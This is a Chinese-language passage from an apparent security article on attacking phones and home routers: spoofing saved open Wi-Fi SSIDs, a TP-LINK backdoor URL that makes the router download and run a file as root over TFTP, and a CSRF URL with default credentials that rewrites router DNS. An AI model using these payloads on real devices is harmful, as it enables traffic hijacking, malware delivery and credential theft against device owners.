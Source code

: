 主动式攻击
-----

* * *

利用智能手机 Wi-Fi 广播 协议的缺陷 / 自动接入设计进行攻击。

手机连接过WIFI热点信息之后会保存在手机里，每次进入无线覆盖范围就会自动接入。

公开WIFI热点

```
 中国移动热点：CMCC、CMCC-EDU 等

 中国联通热点：ChinaUnicom 等

 中国电信热点：ChinaNet、ChinaTelecom 等

```

无线设备为了加快连接速度，会对外广播过它连接过什么无线，ssid是多少。如果我截获到了这个广播，我自然能知道你连过什么无线，把这个无线伪造出来

建立相同SSID 切没有密码的ap热点，手机会主动连接手机里已连接过的AP热点，连接的时候只验证SSID是否相同，当不存在密码的时候，不用去验证，会主动连接。(应该是安卓4.2以下版本可以)。

国产手机自带的Wlan服务(删都删不掉)

将运营商的 Wi-Fi 热点内置到你的手机中，更有甚者一些手机中这几个 Wi-Fi 你都删不掉，碰到了就连上，这样的情况下 我们随意建立一个类似于CMCC 等热点就可以进行信息窃取。

0x03 设备攻防
=========

* * *

TP-link后门

TP-LINK的某些型号的路由器存在一个后门功能，通过访问某个无需授权认证的特定页面，路由器会自动从攻击者控制的TFTP服务器上下载程序并执行。攻击者利用这个漏洞可以在路由器上以root身份执行任意命令，从而可完全控制路由器。

http://192.168.0.1/userRpmNatDebugRpm26525557/start_art.html ” ，路由器会从发起请求的机器通过tftp下载一个nart.out文件，并以root权限执行该文件。

CSRF攻击

```
 IE不支持Http Authentication  使用此方法在IE下攻击是无效的 完美兼容FF chrome。

http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=      192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=&dnsserver=54.248.102.5&dnsserver2=8.8.8.8&Save=%25B1%25A3+%25B4%25E6

```

烽火通信某款路由器被爆存在漏洞-可远程修改DNS

> http://www.exploit-db.com/exploits/28450/

images:  5a470733d8b9919ca740bc44818ccdef6497fc7d.jpg

0x04 路由器攻破可以干什么？
================

* * *

网络出口流量控制在你手里，手机端利用更新 系统漏洞挂马？ PC端利用IE等漏洞来挂马？ 窃取登录密码等等。

控制路由器就等于控制80%以上的通讯数据包，利用方式和局域网嗅探、劫持大同小异。